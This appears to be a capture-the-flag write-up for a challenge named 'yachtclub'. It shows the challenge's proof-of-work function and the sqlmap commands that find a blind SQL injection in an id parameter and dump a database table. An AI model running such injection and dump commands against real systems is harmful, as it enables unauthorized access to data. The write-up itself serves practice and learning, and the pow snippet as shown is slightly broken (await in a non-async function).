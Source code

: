 The idea for yachtclub was to first observe what the `pow` function was doing:

```
function pow(num_a, match) {
  for (let i = 0; i < 1e5; i++) {
    const hash = await sha256(num_a * i);
    if (hash === match) {
      return i.toString();
    }
  }

  return null;
}
```

First you had to provide a number as a proof of work being given 2 fields
in the html source `data-num-a` and `data-hash`. In order to get the number
I created a python script that can be used like:

```
python3 exploit.py <num> <hash>
```

After fetching the right number the page changes with a "Request pending".
This pointed to a route of interests:

```
http://<url>/msg.php?id=<number>
```

The next step was to check with sqlmap that query parameter:

```
sqlmap -u "http://<ip>:<port>/msg.php?id=1337" -p id
```

This seemed to be injectable using a blind sql injection. The final payload was:

```
sqlmap "http://<ip>:<port>/msg.php?id=1337" -p id --dump -D unr21s2-individual-yachtclub -T message
```

The flag was:

```
UNR{65lpfq-xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx}
```
